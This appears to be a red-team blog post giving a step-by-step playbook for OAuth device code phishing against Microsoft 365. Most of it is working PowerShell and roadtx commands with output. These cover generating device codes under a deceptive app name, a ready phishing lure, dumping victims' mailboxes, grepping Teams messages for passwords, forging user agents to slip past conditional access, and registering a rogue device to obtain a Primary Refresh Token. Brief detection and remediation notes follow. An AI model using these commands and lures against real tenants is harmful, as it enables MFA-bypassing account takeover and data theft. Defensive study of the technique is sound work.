

If you work in cloud pentesting and you're not already abusing the OAuth device authorization
flow, you're leaving a very easy initial access vector on the table. No credential stuffing.
No dodgy domains. No waiting for someone to fat-finger their password into your Evilginx
proxy. Just a short alphanumeric code, a legitimate Microsoft URL, and a refresh token that
lasts 90 days.

This is device code phishing. It works against MFA. It works against hardware tokens. And
thanks to Storm-2372 doing it at APT scale since August 2024, it has now received the threat
intel industry's highest honor: a dedicated Microsoft blog post.[^1]

Let me show you how it actually works.

## the mechanic

The OAuth 2.0 device authorization grant flow (RFC 8628) was designed for devices that can't
do interactive browser auth: smart TVs, printers, CLI tools, IoT junk. The flow looks like
this:

1. The device hits `https://login.microsoftonline.com/common/oauth2/devicecode` with a
   `client_id` and a scope.
2. Microsoft returns a `device_code`, a `user_code` (short, human-readable), and a
   `verification_uri` (always `https://microsoft.com/devicelogin`).
3. The device displays the `user_code` to the user and starts polling the `/token` endpoint
   every few seconds.
4. The user opens the `verification_uri` on another device, enters the `user_code`,
   authenticates normally (including MFA), and approves the request.
5. The polling device gets back an `access_token` and a `refresh_token`.

The key insight: the device that *initiated* the code request and the device that
*completed* authentication are completely separate. Microsoft doesn't care. The flow is
designed that way.

An attacker is just a "device with limited input capabilities".[^2]


The victim visits a *real* Microsoft domain. There is no proxy, no cloned login page, nothing
to flag. Standard phishing awareness training ("check the URL!") does exactly nothing here.

### the "dynamic" problem

The original technique, first documented by Dr. Nestori Syynimaa ([@DrAzureAD](https://aadinternals.com/post/phishing/)) in 2020, had
a practical annoyance: `user_code` values expire after 15 minutes. You had to generate a
code, then *immediately* send the phishing email, then hope the victim clicks before the
timer runs out. Clunky for red teams, operationally painful at scale.

"Dynamic" device code phishing solves this by flipping the order. Instead of pre-generating
codes and racing the clock, you present the victim with a landing page that initiates the
code request *on demand*, when the victim is already there. The code is fresh, the window is
live, and you didn't just send an email with a code that expired while the target was in a
meeting.

[SquarePhish](https://github.com/secureworks/squarephish), originally published by Secureworks in 2022, and its updated fork
[SquarePhish2](https://github.com/knavesec/SquarePhish) (published in 2024 by an independent researcher), automate this
precisely: the victim scans a QR code or visits a URL, the tool spins up the OAuth device
flow in the background, and a *second* email arrives from a Microsoft tenant with the code,
making the whole thing look like a legitimate MFA setup flow.

[Graphish](https://www.helpnetsecurity.com/2025/12/18/microsoft-365-device-code-phishing/), floating around vetted criminal forums, does
the same plus adversary-in-the-middle capabilities through Azure App Registrations and
reverse proxies. [Proofpoint](https://www.proofpoint.com/us/blog/threat-insight/access-granted-phishing-device-code-authorization-account-takeover) tracked
multiple state-aligned and financially motivated actors running these toolkits at scale from
September 2025 onwards.[^3]

---

## the attack, step by step

### setup: register an Azure app

You need a `client_id`. The cleanest way is to register a multitenant app in a throwaway
Azure tenant (free tier, no credit card abuse needed[^4]).

Azure Portal → Entra ID → App registrations → New registration:

- name: something convincing ("Microsoft Remote Management", "IT Security Tool",
  "Contoso Device Auth")
- supported account types: "Accounts in any organizational directory + personal Microsoft
  accounts"
- under Authentication: set "Allow public client flows" to **Yes**

This gives you a `client_id`. Write it down.

Alternatively, you can just use existing Microsoft first-party `client_id` values. No app
registration required. More on that below.

### step 1: request the device code

Using [TokenTactics](https://github.com/rvrsh3ll/TokenTactics) (by [@rvrsh3ll](https://github.com/rvrsh3ll) and [@Mr_Un1k0d3r](https://github.com/Mr-Un1k0d3r),
heavily influenced by AADInternals):
```powershell
Import-Module .\TokenTactics.psd1
Get-AzureToken -Client MSGraph
```

Output:
```
user_code        : ERDVDCNHH
device_code      : DAQABAAEAAAAmoFfGtYxvRrNriQdPKIZ-...
verification_uri : https://microsoft.com/devicelogin
expires_in       : 900
interval         : 5
message          : To sign in, use a web browser to open the page
                   https://microsoft.com/devicelogin and enter the
                   code ERDVDCNHH to authenticate.
```

TokenTactics immediately starts polling the `/token` endpoint. Leave the PowerShell window
open.

### step 2: phish the victim

The lure doesn't need to be sophisticated. The brilliance of the attack is that the
destination URL is real.

A minimal lure (yes, this works):
```
Subject: Company call at 3PM — action required

Hi,

Click here to join: https://www.microsoft.com/devicelogin?meetup-join/14:meeting_abc

Your code: ERDVDCNHH
```

More convincing: a fake Teams meeting invitation, an IT "device re-enrollment" notice, a
"salary bonus report" from a spoofed internal address (TA2723's favorite as of late 2025).
Storm-2372 reportedly spent weeks doing rapport-building over WhatsApp and Signal before
dropping the phish.[^5]

The TokenTactics repo includes a polished Outlook HTML/CSS phishing template for exactly
this. Check the project's resources folder.

### step 3: victim clicks, you win

When the victim visits `microsoft.com/devicelogin`, enters `ERDVDCNHH`, and completes their
normal MFA challenge, your polling loop catches the token:
```powershell
# TokenTactics output once the victim authenticates:
access_token  : eyJ0eXAiOiJKV1QiLCJub25jZSI6IlR4V...  [expires ~60min]
refresh_token : 0.ARwA6WgJJ09zT0iVh9Nmu...             [valid ~90 days]
id_token      : eyJ0eXAiOiJKV1QiLCJhbGc...
```

---

## what you can do with it

An access token scoped to MSGraph is table stakes. The refresh token is what matters.
TokenTactics lets you pivot it to any Microsoft service without re-prompting the user:
```powershell
# dump the victim's inbox
Invoke-RefreshToMSGraphToken -refreshToken $response.refresh_token -domain contoso.com
Invoke-DumpOWAMailboxViaMSGraphApi -AccessToken $MSGraphToken.access_token -mailFolder inbox

# open their OWA session in your browser
Invoke-RefreshToSubstrateToken -refreshToken $response.refresh_token -domain contoso.com
Invoke-OpenOWAMailboxInBrowser -AccessToken $SubstrateToken.access_token

# pivot to Teams
Invoke-RefreshToMSTeamsToken -domain contoso.com -refreshToken $response.refresh_token
Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | Select-String -Pattern "password"

# map the whole tenant with AzureHound
./azurehound -r $response.refresh_token list --tenant "contoso.com" -o output.json
```

Load the AzureHound output into Neo4j, run BloodHound, find your path to Global Admin.
[PhirstPhish](https://github.com/MelloSec/PhirstPhish) automates the loot-and-pivot chain into a single script if you're lazy or in a hurry.

### bypassing conditional access policies

The annoying part: conditional access policies can block token usage from unexpected device
types or geos. The fix is trivial. TokenTactics has a `Invoke-ForgeUserAgent` command, and
you can pass `-Device` and `-Browser` flags on every token refresh:
```powershell
Invoke-RefreshToMSGraphToken -refreshToken $response.refresh_token `
                              -domain contoso.com `
                              -Device iPhone `
                              -Browser Safari
```

OS/2 Warp is a personal favorite.[^6] Since Microsoft doesn't have a `DevicePlatform`
condition for a 1980s operating system, it falls through to the default policy — which is
often less restrictive than the Windows/iOS/Android branches. Also, the logs look
spectacular.

Residential proxies handle geo-based restrictions.

---

## the storm-2372 upgrade: primary refresh tokens

Here's where it gets nastier.

In February 2025, Microsoft observed Storm-2372 shift to using a specific `client_id`:
the one for [Microsoft Authentication Broker](https://www.microsoft.com/en-us/security/blog/2025/02/13/storm-2372-conducts-device-code-phishing-campaign/) (`29d9ed98-a469-4536-ade2-f981bc1d605e`).

This isn't a random choice. The Authentication Broker client ID allows the attacker to use
the captured refresh token to request a token for the *device registration service*, then
register an attacker-controlled device in the victim's Entra ID tenant. With that device
identity plus the original refresh token, they can acquire a **Primary Refresh Token (PRT)**.

A PRT is essentially a tenant-wide skeleton key. It survives password resets. It can satisfy
Compliant Device conditional access conditions. It gives you persistent, stealthy access that
doesn't depend on keeping a specific access token alive.[^7]

The TokenTactics ecosystem has this covered:
```powershell
# request device code using the Authentication Broker client_id
$body = @{
    "client_id" = "29d9ed98-a469-4536-ade2-f981bc1d605e"
    "scope"     = "openid offline_access"
}
$response = Invoke-RestMethod -Method Post `
    -Uri "https://login.microsoftonline.com/common/oauth2/v2.0/devicecode" `
    -Body $body

# ... phish victim, get tokens ...

# use refresh token to register a device, grab PRT
# (roadtx handles the device registration dance)
roadtx device -a register --name "CORP-LAPTOP-07"
roadtx prt -a get -r $response.refresh_token
```

[roadtx](https://github.com/dirkjanm/ROADtools), by [@_dirkjan](https://twitter.com/_dirkjan), is the tool for the PRT acquisition and
subsequent abuse. His [ROADTOOLS suite](https://github.com/dirkjanm/ROADtools) (roadrecon + roadtx) is the gold standard for
post-compromise Azure AD enumeration and exploitation.

---

## detection gaps (as of early 2026)

Worth knowing what defenders are up against, since you'll face it on engagements:

Microsoft's sign-in logs *do* record device code authentication events. The problem is they
look like normal sign-ins because the victim completed the flow on a real Microsoft endpoint.
There's no dedicated alert by default.

Detection requires custom rules looking for:
- high-volume `/devicecode` requests from a single IP in a short window
- device code sign-ins from unexpected geolocations (easy to bypass, see above)
- users visiting `microsoft.com/devicelogin` in rapid succession (browser proxy required to
  see this)
- token usage from device/browser combinations that don't match the user's baseline
- lateral movement: same victim account generating device codes for *other* users within
  minutes of compromise (Storm-2372's post-compromise chain used the victim's mailbox to
  send fresh phishing waves internally)

The lateral movement chain is particularly clean: once you've compromised one account, you
use it to send internal emails containing new device codes to other employees. Internal
sender, no external redirect, trusted domain. Phishing filters don't see it coming.

---

## remediation (brief, because you know this)

- block device code flow entirely in Conditional Access if your tenant has no legitimate need
  for it (most do not)
- if you can't block it, restrict it to compliant/hybrid-joined devices on trusted networks
- if you think you've been hit: `revokeSignInSessions` invalidates refresh tokens immediately
- rotate the affected user's credentials and force re-enrollment
- the Microsoft Entra [Conditional Access policy for blocking authentication flows](https://learn.microsoft.com/en-us/entra/identity/conditional-access/policy-block-authentication-flows) has a
  dedicated "Device code flow" toggle. It's not enabled by default. Enable it.

FIDO2 hardware keys with device-binding (passkeys, not just security keys as a second
factor) provide actual resistance here. Anything that relies on "user completes auth on a
real Microsoft page" is phishable by design.

---

## tools mentioned

- [AADInternals](https://aadinternals.com/) by [@DrAzureAD](https://twitter.com/DrAzureAD) — the original Azure AD toolkit
- [TokenTactics](https://github.com/rvrsh3ll/TokenTactics) by [@rvrsh3ll](https://github.com/rvrsh3ll) — device code phishing + token pivoting
- [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2) — more updated fork with additional token refresh targets
- [MultiTokenTactics](https://github.com/RedByte1337/MultiTokenTactics) — bulk device code generation for large-scale campaigns
- [SquarePhish2](https://github.com/knavesec/SquarePhish) — dynamic device code phishing kit with QR code support
- [PhirstPhish](https://github.com/MelloSec/PhirstPhish) — automated loot-and-pivot chain post-compromise
- [ROADTOOLS](https://github.com/dirkjanm/ROADtools) by [@_dirkjan](https://twitter.com/_dirkjan) — Azure AD enumeration, PRT acquisition, device join

---

[^1]: Getting a threat intel write-up from Microsoft is the APT equivalent of getting your
album reviewed by Pitchfork. You've made it.

[^2]: RFC 8628, Section 1: "OAuth 2.0 device authorization grant [...] for devices that
either lack a browser or have significant input limitations." A malicious attacker is
technically a device. With limited input. From the spec's perspective: valid.

[^3]: Proofpoint tracked state-aligned actors (Russia-aligned UNK_AcademicFlare,
suspected China-aligned clusters) and financially motivated groups (TA2723, running
"OCTOBER_SALARY_AMENDED" lures). When you're seeing nation-state APTs and commodity
phishing actors converge on the same technique, that's your sign it works.

[^4]: You do need a valid phone number and credit card for an Azure free tier. This is
the most annoying step. Microsoft will not charge you. Probably.

[^5]: The rapport-building phase is ~~sometimes~~ most of the time what separates a
blocked phish from a successful one. Storm-2372 reportedly spent weeks establishing
contact as "a prominent person relevant to the target" before sending anything
malicious. Patience is a vulnerability that no Conditional Access policy covers.

[^6]: The original idea for OS/2 as a device spoof is from a TrustedSec blog post on
token theft. I cannot tell you if anyone has ever legitimately authenticated a Microsoft
365 account from OS/2 Warp 4 in 2025. I choose to believe someone has.

[^7]: A Primary Refresh Token surviving a password reset is the kind of thing that makes
incident responders age ten years in five minutes. "We rotated the credentials, we're
fine." No. No you are not. Revoke everything. Every session. Every token. All of it.